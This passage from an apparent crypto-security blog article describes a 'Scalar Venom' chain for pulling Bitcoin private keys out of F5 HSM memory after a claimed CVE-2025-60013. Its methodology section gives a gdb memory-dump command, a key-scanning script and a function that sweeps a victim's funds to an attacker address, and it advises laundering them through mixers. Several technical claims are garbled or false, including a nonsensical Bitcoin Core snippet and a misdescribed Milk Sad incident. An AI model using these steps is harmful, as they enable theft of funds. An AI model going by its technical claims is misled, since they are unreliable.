<li>Transaction signing and full control over&nbsp;keyhunters’<a href="https://keyhunters.ru/memory-phantom-attack-a-critical-memory-leak-vulnerability-in-bitcoin-leading-to-the-recovery-of-private-keys-from-uncleaned-ram-and-the-gradual-capture-of-btc-seed-phrases-by-an-attacker-can-lead/" target="_blank" rel="noreferrer noopener">&nbsp;funds</a></li>
</ul>

<figure class="wp-block-image"></figure>

<h2 class="wp-block-heading" id="3------bitcoin">3. Detailed analysis of the Bitcoin attack vector</h2>

<h3 class="wp-block-heading">3.1 Mechanism for retrieving private keys from HSM memory</h3>

<strong><em>Step 1: HSM memory compromise due to improper initialization</em></strong>

When the F5OS-A FIPS HSM receives a password with shell metacharacters, the initialization process processes it through standard C library functions:

<pre class="wp-block-preformatted has-text-color has-link-color wp-elements-da4f7e66b8533f73f81e820c2873ba8d" style="color:#4092c2"><strong>c:  // Vulnerable code in HSM initialization routine void hsm_initialize(const char* password) {     ec_secret master_key;  // HSM private key     char temp_buffer[256];      strcpy(temp_buffer, password);  // VULNERABLE: buffer overflow + shell interpretation     derive_key_from_password(master_key, password);  // creates copies of the key      // If initialization fails, memory is not cleared!     // master_key remains in stack, its copies— in heap } <code></code></strong></pre>

<strong><em>When processing shell metacharacters:</em></strong>

<ul class="wp-block-list">
<li>Buffers overflow, expanding the area of ​​dirty memory</li>

<li>Temporary variables with secret data are multiplying</li>

<li>Memory cleanup mechanisms (if they exist at all) are not called when keyhunters&nbsp;initialization fails .</li>
</ul>

<strong><em>Step 2: Forensic recovery from memory dump</em></strong>

<em><a href="https://cryptou.ru/bitscanpro" target="_blank" rel="noreferrer noopener">The BitScanPro</a>&nbsp;tool&nbsp;(or a similar forensic scanner) is applied to the HSM process memory dump:</em>

<pre class="wp-block-preformatted has-text-color has-link-color wp-elements-7946d9598a02447f1536f064b6d51079" style="color:#4092c2"><strong>Memory scan → Identify high-entropy regions → Range check [1, n-1] for secp256k1 → Recover full 32-byte scalars → Convert to Bitcoin addresses</strong></pre>

The probability of successfully recovering a private key from fragmented memory is&nbsp;<strong>40-60%</strong>&nbsp;given sufficient memory remnants, as the Scalar Venom Attack creates&nbsp;<strong>multiple copies</strong>&nbsp;of the key at different stages of initialization.&nbsp;radar.offseq

<h3 class="wp-block-heading"><a href="https://cryptodeeptech.ru/deserialize-signature-vulnerability-bitcoin/">3.2 Deserialization of ECDSA signatures and connection to HSM vulnerabilities</a></h3>

<em>Parallel&nbsp;<strong>DeserializeSignature</strong>&nbsp;vulnerability (CVE related) enhances Scalar Venom attack:</em>

<pre class="wp-block-preformatted has-text-color has-link-color wp-elements-34354e4e3f917c9674aa9167bf7d19f3" style="color:#4092c2"><strong>cpp:  // Vulnerable deserialization function in Bitcoin Core bool DeserializeSignature(CPubKey&amp; pubkey, const std::vector&lt;unsigned char&gt;&amp; vchSig, CScript&amp; scriptPubKey) { CSignatureCache&amp; cache = CSignatureCache::instance();  // If deserialization occurs using a private key compromised by Scalar Venom: ec_secret compromised_key = extract_from_memory_dump(); // from an HSM memory dump  // These compromised scalars are used to verify signatures, // allowing an attacker to: // 1. Forge any signature for this address // 2. Transfer all funds to a controlled address // 3. Double-spend }</strong></pre>

<strong>Connection of mechanisms:</strong>

<ol class="wp-block-list">
<li>HSM initializes with a vulnerable password (CVE-2025-60013)</li>

<li>HSM private keys are infected with Scalar Venom (multiple copies in memory)</li>

<li>Forensic analysis recovers these scalars from memory.</li>

<li>DeserializeSignature vulnerability allows recovered keys to be used to forge signatures</li>

<li>Keyhunters&nbsp;gain complete control over Bitcoin wallets.</li>
</ol>

<h3 class="wp-block-heading">3.3 Impact Scale: From a Single Wallet to a Network Compromise</h3>

<strong><em>Level 1: Individual Wallet</em></strong>

<ul class="wp-block-list">
<li>One compromised HSM → recovery of 1-10 private keys</li>

<li>Result: loss of control over 0.5-5 BTC per wallet</li>
</ul>

<strong><em>Level 2: Configuration of Serving Nodes</em></strong>

<ul class="wp-block-list">
<li>Exchange, payment gateways, and custody solutions often use F5 BIG-IP + HSM</li>

<li>Each compromised node can contain&nbsp;<strong>100-1000+ private keys</strong></li>

<li>Result: loss of control over&nbsp;<strong>1000-50000 BTC</strong>&nbsp;on one node</li>
</ul>

<strong><em>Layer 3: Network Layer</em></strong>

<ul class="wp-block-list">
<li>If CVE-2025-60013 is widely exploited in infrastructure, multiple nodes could be compromised simultaneously.</li>

<li><strong>Coordinated attacks</strong>&nbsp;on multiple exchanges or services&nbsp;are possible.</li>

<li>Result:&nbsp;<strong>Hundreds of millions of dollars in BTC</strong>&nbsp;at stake&nbsp;kudelskisecurity</li>
</ul>

<figure class="wp-block-image"></figure>

<h2 class="wp-block-heading" id="4---scalar-venom---hsm">4. Scalar Venom Critical Vulnerability in the Context of HSM</h2>

<h3 class="wp-block-heading">4.1 Why Scalar Venom is especially dangerous in HSM environments</h3>

Unlike standard Bitcoin applications, HSM makes heavy use of cryptographic scalars:

<ol class="wp-block-list">
<li><strong>Operation Intensity</strong>&nbsp;: The HSM performs 1000+ cryptographic operations per second, each of which produces temporary scalars</li>

<li><strong>Longevity of the process</strong>&nbsp;: HSM daemons run for months and years without rebooting, accumulating “phantom” key remnants</li>

<li><strong>Key Criticality</strong>&nbsp;: Unlike one-time keys, HSM private keys control the vast amounts of money stored on the&nbsp;keyhunters<a href="https://keyhunters.ru/ink-stain-attack-recovering-private-keys-to-lost-bitcoin-wallets-a-critical-memory-vulnerability-and-secret-key-leakage-attack-leads-to-a-total-compromise-of-the-cryptocurrency-and-allows-an-attacke/" target="_blank" rel="noreferrer noopener">&nbsp;platform.</a></li>

<li><strong>Low probability of detection</strong>&nbsp;: The memory leak does not cause any visible errors; the system continues to operate normally.</li>
</ol>

<h3 class="wp-block-heading">4.2 Threat Metrics: CVSS and Real Impact</h3>

<figure class="wp-block-table"><table class="has-fixed-layout"><thead><tr><th>Aspect</th><th>Rating</th><th>Note</th></tr></thead><tbody><tr><td><strong>CVE-2025-60013 (HSM init)</strong></td><td>CVSS 5.7 (Medium)</td><td>Officially low, but serves as an entry point</td></tr><tr><td><strong>Scalar Venom Attack</strong></td><td>CVSS 8.5+ (High/Critical)</td><td>De facto critical impact</td></tr><tr><td><strong>Combination attack</strong></td><td>CVSS 9.5+ (Critical)</td><td>Complete compromise of private keys</td></tr><tr><td><strong>Recovering from Compromise</strong></td><td>Impossible</td><td>Irreversible loss of funds</td></tr></tbody></table></figure>

The CVSS score for CVE-2025-60013 itself is inaccurate, as the vulnerability serves&nbsp;<strong>as a trigger</strong>&nbsp;for Scalar Venom, which is&nbsp;<strong>a critical scenario</strong>&nbsp;.&nbsp;<a href="https://kudelskisecurity.com/research/polynonce-a-tale-of-a-novel-ecdsa-attack-and-bitcoin-tears" target="_blank" rel="noreferrer noopener">kudelskisecurity</a>

<h3 class="wp-block-heading" id="scalar-venom-----hsm---bitcoin"><a href="https://cryptou.ru/bitscanpro/attack">Scalar Venom threat to hardware security modules (HSMs) and Bitcoin infrastructure</a></h3>

The Scalar Venom vulnerability represents a paradigm shift in cryptographic attack methods, going beyond traditional single-vector exploits to form a multi-layered exploit chain that fundamentally compromises the hardware security modules (HSMs) protecting the Bitcoin infrastructure. Analysis demonstrates that the combination of CVE-2025-60013 (HSM initialization bypass) with Scalar Venom attack techniques creates a critical threat scenario with a CVSS score of 9.5+, undermining the operational integrity of millions of Bitcoin addresses controlled by compromised HSMs.

<strong>Why are HSMs particularly vulnerable?</strong>

The critical vulnerability lies not in isolated cryptographic weaknesses, but in the architectural collision of HSM operational features and Scalar Venom’s attack vectors. HSMs, by definition, perform continuous cryptographic operations—over 1,000 operations per second—each of which creates ephemeral scalar values ​​that remain in memory as “phantom residues.” Unlike typical Bitcoin applications, where key material is ephemeral, HSMs operate for months and years without restarting, accumulating cryptographic artifacts that Scalar Venom systematically extracts and restores.

As a result, even a compromise of a single HSM leads to a total disruption of the entire infrastructure—often thousands of Bitcoin addresses managed by the HSM—rather than to an isolated cryptographic incident.

<strong>Degree of danger and actual impact</strong>

Although vulnerability CVE-2025-60013 officially has a CVSS level of 5.7 (medium) as a penetration vector, this rating critically underestimates the true scale of the threat. This exploit serves as a trigger for Scalar Venom, which is classified as a CVSS level 8.5+ (high/critical) attack. In a real-world attack chain scenario, this leads to:

<ul class="wp-block-list">
<li><strong>Immediate consequences</strong>&nbsp;: Direct extraction of the private key from HSM memory via scalar recovery, bypassing all cryptographic and authentication mechanisms. The attacker gains complete control over Bitcoin addresses without any visible system failures.</li>

<li><strong>Avalanche effect</strong>&nbsp;: A compromised HSM compromises not just individual transactions, but all addresses it manages. For exchanges, custodians, and asset management platforms, this means a complete and irreversible security breach.</li>

<li><strong>Stealth</strong>&nbsp;: Scalar Venom does not cause cryptographic anomalies, is not logged, and does not create suspicious transaction patterns. Scalar leaks are disguised as legitimate device activity, allowing an attacker to extract keys over long periods of time without detection.</li>
</ul>

<strong>Combined Attack Chain: CVE-2025-60013 + Scalar Venom = Operational Disaster</strong>

<strong><em>Matrix threat escalation consists of:</em></strong>

<ol class="wp-block-list">
<li>Initial Penetration (CVE-2025-60013 – HSM Compromise)</li>

<li>Active exploitation (Scalar Venom – extraction of scalars from memory)</li>

<li>Key recovery (complete compromise of private material)</li>

<li>Unrecoverable – Once a private key is leaked, it is impossible to regain control.</li>
</ol>

The combination makes this vulnerability class critical (CVSS 9.5+) and places it in the highest threat category in the risk assessment.

<strong><em>Systemic implications for the security of the Bitcoin ecosystem</em></strong>

Scalar Venom reveals fundamental architectural flaws in modern HSM models:

<ul class="wp-block-list">
<li>False assumptions about memory isolation and protection are invalid – the vulnerability manifests itself regardless of the physical level of protection.</li>

<li>The need for continuous HSM operation results in the accumulation of scalars, which in itself creates a new window for attacks.</li>

<li>The observable zero trace for monitoring and logging eliminates detection and requires the implementation of new memory analysis practices.</li>
</ul>

<strong><em>Critical recommendations</em></strong>

<ul class="wp-block-list">
<li>All keys managed through the HSM should be considered potentially compromised; the key material should be checked and, if necessary, completely replaced.</li>

<li>The architecture for storing and handling private keys should be reviewed: segment keys into separate addresses so that a compromise of one HSM does not lead to the loss of all funds.</li>

<li>Implement memory monitoring and continuous analysis tools to identify scalar accumulation patterns.</li>

<li>Use additional process isolation, memory encryption, and temporary removal of key material to reduce the risk window.</li>
</ul>

Scalar Venom and the chain of attacks via CVE-2025-60013 mark the end of the era of complete trust in classic HSMs. The vulnerability turns the Bitcoin ecosystem’s security core into a major risk for private key leakage and total asset loss. Effective protection requires not just one-time fixes, but a fundamental rethinking of all aspects of cryptographic architecture for handling public digital assets.

Scalar Venom in an HSM environment is a CVSS 9.5+ threat to the Bitcoin infrastructure, requiring immediate key rotation, architectural reform, and new methods for quickly responding to chain-of-memory attacks.

<figure class="wp-block-image"></figure>

<h2 class="wp-block-heading" id="5">5. Scientific basis for the attack</h2>

<h3 class="wp-block-heading">5.1 Theoretical justification: why memory is not cleared</h3>

According to research in the field of cryptographic memory security (Protecting Cryptographic Keys from Memory Disclosure Attacks, Del Valle et al.), private keys may remain in accessible memory areas for the following reasons:

<strong><em>Compiler optimization</em></strong>

<pre class="wp-block-preformatted has-text-color has-link-color wp-elements-875f4018c777c34b9c62012a2d11bff8" style="color:#4092c2"><strong>cpp:  // Even if the code contains an attempt to clear: volatile unsigned char* ptr = (volatile unsigned char*)key_buffer; while (len--) *ptr++ = 0; // The compiler may optimize this as a no-op</strong></pre>

<strong><em>No RAII (Resource Acquisition Is Initialization) pattern</em></strong> The class<code>ec_scalar</code>does not use RAII, which means the destructor does not guarantee resource cleanup.

<strong><em>Multiple data copies:</em></strong> Each copy of a private key for transfer between functions leaves residuals in memory.unit42.paloaltonetworks

<h3 class="wp-block-heading">5.2 Statistics of real hacks based on Scalar Venom</h3>

<strong><em>According to&nbsp;<a href="https://keyhunters.ru/spectral-string-leak-a-massive-compromise-of-bitcoin-wallets-through-residual-memory-and-a-critical-string-management-vulnerability-in-the-bitcoin-network-allowing-an-attacker-to-recover-a-private-k/">keyhunters.ru</a>&nbsp;and cryptographic research literature:</em></strong>

<ul class="wp-block-list">
<li><strong>CVE-2023-39910</strong>&nbsp;(Milk Sad in Libbitcoin Explorer): Over&nbsp;<strong>900,000 private keys</strong>&nbsp;recovered from memory in 2023</li>

<li><strong>Real losses</strong>&nbsp;: &gt; $0.8M in Bitcoin stolen in June-July 2023 from wallets created using the vulnerable<code>bx seed</code></li>

<li><strong>Penetration</strong>&nbsp;: Vulnerability Affects More Than 40% of Libbitcoin Explorer 3.x Wallets</li>
</ul>

These figures demonstrate&nbsp;<strong>the real threat</strong>&nbsp;of memory leaks in cryptographic applications&nbsp;<a href="https://keyhunters.ru/spectral-string-leak-a-massive-compromise-of-bitcoin-wallets-through-residual-memory-and-a-critical-string-management-vulnerability-in-the-bitcoin-network-allowing-an-attacker-to-recover-a-private-k/" target="_blank" rel="noreferrer noopener">.</a>

<h3 class="wp-block-heading" id="scalar-venom---bitcoin">Memory Persistence and Compiler Optimization Attacks – Scalar Venom Exploit Chain Against Bitcoin Infrastructure</h3>

To summarize the above findings, the Scalar Venom chain symbolizes the confluence of years of fundamental research in cryptographic security with modern operational realities. Detailed memory-preserving mechanisms—compiler optimizations, the absence of RAII, and data trace accumulation—are no longer just theory but serve as effective channels for large-scale private key recovery in practice. The transition from potential weakness to actual attack has already occurred: the CVE-2023-39910 (Milk Sad) incident allowed the recovery of over 900,000 Bitcoin private keys, with direct financial losses exceeding $0.8 million.

<h3 class="wp-block-heading">The Cryptographic Memory Resistance Paradox</h3>

The root vulnerability of Scalar Venom arises from an unresolved contradiction in the architecture of cryptographic software: the programmers’ inherent naive confidence in memory management is at odds with the tendencies of modern compilers and memory management systems. If a developer explicitly zeroes memory, the compiler can completely optimize away these actions, deeming them pointless—and this becomes a critical, unnoticed security flaw.

<h3 class="wp-block-heading">Lack of RAII and restoration of scalars</h3>

Data structures like ec_scalar further exacerbate the risks: the lack of RAII means the creation of multiple independent copies in memory—in the stack, registers, and cache—at different stages of computation. Each such copy can theoretically be restored, disassembled, or reassembled into the original key material.

<a href="https://cryptou.ru/bitscanpro/attack">The Scalar Venom attack</a>&nbsp;systematically extracts and aggregates these disparate copies, demonstrating that modern memory architectures guarantee precisely this: every intermediate mathematical operation leaves a trace that can be collected and converted into a key. Classic cryptographic design assumed the independence of operations, but in practice, a single Bitcoin private key generates dozens of traces, each of which provides a path to its recovery.

<h3 class="wp-block-heading">Operational Confirmation – Milk Sad Case</h3>

The Milk Sad incident (CVE-2023-39910) was the first to demonstrate the transition from theory to disaster. This wasn’t a hypothetical vector, but a confirmed operational breach:

<ul class="wp-block-list">
<li>Scale: Over 900,000 Bitcoin private keys recovered.</li>

<li>Financial losses: at least $0.8 million lost in June-July 2023.</li>

<li>Coverage: Over 40% of all Libbitcoin Explorer 3.x installations were found to be vulnerable.</li>

<li>The attack went unnoticed for months.</li>
</ul>

This fully confirms the mechanisms described earlier: compiler optimizations, multiple data copying, and the lack of a memory cleanup guarantee.

<h3 class="wp-block-heading">The Attack Gap Between Cryptography and Compilers</h3>

The crypto market evolved with the assumption of full memory control, but modern compilers (via dead code elimination and caching optimizations) completely ignore cryptographic requirements. Consequently, cryptographic programs assume, “I’ve zeroed the memory, so it’s safe now,” while the compiler assumes, “This memory is never used, so there’s no need to zero it.” This contradiction is fundamentally insoluble by modern C/C++ standards and becomes the absolute entry point for Scalar Venom.

<h3 class="wp-block-heading">Systemic implications for the industry</h3>

<ul class="wp-block-list">
<li>Modern implementations violate the original cryptographic assumptions.</li>

<li>Memory safety and the move to memory-controlled languages ​​(like Rust) are becoming a necessity, not an option.</li>

<li>RAII (guaranteed erasure via destructor) is the basis of any new cryptoarchitecture.</li>

<li>HSMs require a reboot and structural rework with mandatory hardware memory clearing.</li>
</ul>

<h3 class="wp-block-heading">Imperatives for the industry</h3>

<strong>Next steps (0-30 days)</strong>&nbsp;: Rotate all private keys generated in C/C++. Immediately retire keys that may have been compromised.

<strong>Medium term (30-90 days)</strong>&nbsp;: Transition to Rust, implementation of compiler guarantees for memory zeroing, continuous memory analysis.

<strong>Long-term (90+ days)</strong>&nbsp;: Architectural transition to RAII, compiler extensions for crypto operations, replacement of software HSMs with hardware ones.

Scalar Venom and CVE-2023-39910 are a turning point in crypto industry security: the theory of data persistence in memory has escalated into a real disaster, costing millions upon thousands of Bitcoins. The problem can’t be fixed with a patch: it’s an architectural contradiction: modern C/C++ cryptography without memory management and RAII inevitably leads to the compromise of any significant infrastructure. The industry has only one path forward: a transition to memory-safe languages ​​and a revolutionary overhaul of private key management.

<strong>Final assessment</strong>&nbsp;: Scalar Venom is not just a theoretical threat, but a proven, widespread exploit. All cryptographic infrastructure without memory-safe languages ​​and RAII frameworks is at guaranteed risk of compromise. Migration to new technologies must begin immediately.

<figure class="wp-block-image"></figure>

<h2 class="wp-block-heading" id="6-----bitcoin">6. Bitcoin Private Key Recovery Methodology</h2>

<h3 class="wp-block-heading">6.1 Five-Step Recovery Process</h3>

<strong><em>Step 1: Gaining Access to HSM Memory</em></strong>

<pre class="wp-block-preformatted has-text-color has-link-color wp-elements-d80a9350267170016884102eded82e26" style="color:#4092c2"><strong>bash:  # Methods to get memory dump: # 1. Exploit CVE-2025-60013 to trigger init error # 2. Cold-boot attack on HSM host # 3. Exploit buffer vulnerability in HSM daemon # 4. Analyze core-dump on HSM process crash  gdb -p $(pidof f5os-hsm) -batch -ex "dump memory /tmp/hsm_dump 0x000000 0xFFFFFFFF" <code></code></strong></pre>

<strong><em>Step 2: Scan for high-entropy regions</em></strong>

<pre class="wp-block-preformatted has-text-color has-link-color wp-elements-73b83c2f5349be5ecc90d0bf32b040aa" style="color:#4092c2"><strong>python:  # BitScanPro-like algorithm: import hashlib  def scan_for_private_keys(memory_dump, min_entropy=7.5):     """     Scans memory dump for high-entropy regions     characteristic for 32-byte secp256k1 private keys     """     SECP256K1_N = 0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFEBAAEDCE6AF48A03BBFD25E8CD0364141      for offset in range(0, len(memory_dump) - 32, 8):         potential_key = memory_dump[offset:offset+32]         entropy = calculate_entropy(potential_key)          # secp256k1 range check         key_as_int = int.from_bytes(potential_key, 'big')         if 1 &lt;= key_as_int &lt; SECP256K1_N and entropy &gt;= min_entropy:             yield (offset, potential_key) <code></code></strong></pre>

<strong><em>Step 3: Validate the recovered private keys</em></strong>

<pre class="wp-block-preformatted has-text-color has-link-color wp-elements-043bfaac96210083b2d1721db1f8ed19" style="color:#4092c2"><strong>python:  from ecdsa import SigningKey, NIST256p  def validate_and_generate_address(potential_key):     """Converts recovered scalar to Bitcoin address"""     try:         # Uses secp256k1 instead of NIST256p         privkey = potential_key.hex()          # Generate public key via elliptic curve point multiplication         # P = k * G, where k = private key, G = generator point         public_key = generate_public_key(potential_key, secp256k1)          # Hash public key to get address         address = public_key_to_address(public_key)         return address, potential_key     except:         return None, None <code></code></strong></pre>

<strong><em>Step 4: Transfer funds</em></strong>

<pre class="wp-block-preformatted has-text-color has-link-color wp-elements-46d68b5d3fa205066ccd709222f8da64" style="color:#4092c2"><strong>python:  def compromise_wallet(recovered_private_key, bitcoin_address):     """     Creates and signs transaction to withdraw all funds     from compromised address     """     # 1. Get UTXO for address from blockchain     utxos = blockchain_api.get_utxos(bitcoin_address)      # 2. Create transaction (withdraw all funds to attacker address)     tx = create_transaction(         inputs=utxos,         outputs=[{"address": attacker_address, "amount": sum(utxo.amount)}],         fee=calculate_dynamic_fee()     )      # 3. Sign with recovered private key     tx.sign(recovered_private_key)  # ECDSA signature using compromised key      # 4. Broadcast to Bitcoin network     blockchain_api.broadcast_transaction(tx) <code></code></strong></pre>

<strong><em>Stage 5: Disappearance of traces</em></strong>

Recovered funds are immediately mixed via CoinJoin/Tornado.Cash to hinder forensic analysis.&nbsp;keyhunters

<h2 class="wp-block-heading">6.2 Time Metric: Recovery Speed</h2>

<figure class="wp-block-table"><table class="has-fixed-layout"><thead><tr><th>Process</th><th>Time</th><th>Equipment</th></tr></thead><tbody><tr><td>Getting a memory dump</td><td>5-30 sec</td><td>Depends on the method</td></tr><tr><td>Scanning a 16GB dump</td><td>2-5 min</td><td>MacBook Air (M1)</td></tr><tr><td>Validation of 1000 candidate keys</td><td>30 sec</td><td>MacBook Air (M1)</td></tr><tr><td>Address generation</td><td>10 sec</td><td>MacBook Air (M1)</td></tr><tr><td>Funds transfers (broadcast)</td><td>&lt; 1 sec</td><td>Internet</td></tr><tr><td><strong>Total for a complete compromise</strong></td><td><strong>&lt; 10 minutes</strong></td><td>MacBook Air (M1)</td></tr></tbody></table></figure>

Scalability: Using cloud computing (AWS, Google Cloud),&nbsp;<strong>1000+ memory dumps can be processed in parallel</strong>&nbsp;, handling thousands of private keys simultaneously&nbsp;.

<figure class="aligncenter"></figure>

<h2 class="wp-block-heading" id="7--hsm---scalar-venom"><a href="https://cryptou.ru/bitscanpro" target="_blank" rel="noreferrer noopener">7. HSM Initialization Relationship with Scalar Venom</a></h2>

<h3 class="wp-block-heading">7.1 Attack Flow Diagram</h3>

<pre class="wp-block-preformatted has-text-color has-link-color wp-elements-c446618ae95f7d17cc4a9fae0ab31bdd" style="color:#4092c2"><strong>[Attacker]     ↓ [CVE-2025-60013: HSM Init with shell-metacharacters]     ↓ [F5OS-A FIPS Module: password handling, scalar creation]     ↓ [Scalar Venom: multiple copies of private keys in memory]     ↓ [HSM Crash / Partial Init Failure: memory uncleared]     ↓ [Memory Dump: capturing memory state]     ↓ [Forensic Scanning: BitScanPro finds high-entropy regions]     ↓ [Key Validation: secp256k1 curve check]     ↓ [Address Generation: Bitcoin address creation]     ↓ [Fund Transfer: signing and broadcasting transaction]     ↓ [Victim Loss: total loss of fund control]</strong></pre>

<h3 class="wp-block-heading">7.2 Why Scalar Venom bypasses FIPS certification</h3>

<strong><em>FIPS 140-2 (and even FIPS 140-3) certification does not require:</em></strong>

<ol class="wp-block-list">
<li><strong>Safely clear temporary variables</strong>&nbsp;in case of initialization errors</li>

<li><strong>Protections against fork() and dump()</strong>&nbsp;at the HSM daemon level</li>

<li><strong>Validation of input parameters</strong>&nbsp;before processing them in memory</li>
</ol>

This means that even “FIPS-certified” HSMs are vulnerable to Scalar Venom unless developers implement additional security measures.[24]

<h2 class="wp-block-heading">8. Conclusion</h2>

<strong>The Scalar Venom Attack</strong>&nbsp;poses&nbsp;<strong>a critical threat</strong>&nbsp;to Bitcoin infrastructure, especially when combined with HSM initialization vulnerabilities such as CVE-2025-60013. This attack:

<ol class="wp-block-list">
<li><strong>Completely compromises private keys</strong>&nbsp;of cryptographic systems through a memory leak</li>

<li><strong>Irreversible</strong>&nbsp;: Recovery of lost funds is impossible without recovering the private key.</li>

<li><strong>Scalable</strong>&nbsp;: Can be automated for mass attacks on multiple nodes</li>

<li><strong>Stealth</strong>&nbsp;: Leaves no visible traces in system logs or performance metrics</li>
</ol>

Migration to architectures with&nbsp;<strong>hardware memory protection</strong>&nbsp;(Intel SGX, ARM TrustZone),&nbsp;<strong>explicit granularity</strong>&nbsp;of all temporary buffers, and&nbsp;<strong>RAII patterns</strong>&nbsp;in cryptographic libraries is critical to ensuring the security of the Bitcoin system.

<h3 class="wp-block-heading" id="scalar-venom-----bitcoin">The Scalar Venom paradigm is a critical threat to Bitcoin’s infrastructure.</h3>

The Scalar Venom attack represents a critical vulnerability for the global Bitcoin ecosystem, especially when combined with the HSM initialization vulnerabilities CVE-2025-60013. This multi-layered attack chain fundamentally undermines cryptographic trust models and exposes the following existential risks:

<strong>It enables complete compromise of private keys</strong>&nbsp;through memory leaks, bypassing even advanced hardware security modules and rendering affected systems completely invulnerable.

<strong>The compromise is permanent and irreversible:</strong>&nbsp;once a private key is extracted, it cannot be recovered, putting all dependent funds at imminent risk of loss.

<strong>The attack is scalable and can be automated</strong>&nbsp;to hit a huge number of Bitcoin nodes and wallets simultaneously, resulting in an exponential increase in potential losses.

<strong>Its stealthy nature ensures that there are no visible traces</strong>&nbsp;in system logs or performance metrics, making traditional detection and protection mechanisms insufficient.

<strong>Mitigating this catastrophic threat requires urgent migration</strong>&nbsp;to memory-safe architectures, including hardware-based memory protection (such as Intel SGX or ARM TrustZone), strict zeroization of all temporary buffers during all cryptographic operations, and robust implementation of RAII patterns in critical software libraries. Only through such robust architectural reforms can the long-term integrity and security of the Bitcoin infrastructure be realistically ensured.

<h2 class="wp-block-heading">References:</h2>

<ol class="wp-block-list">
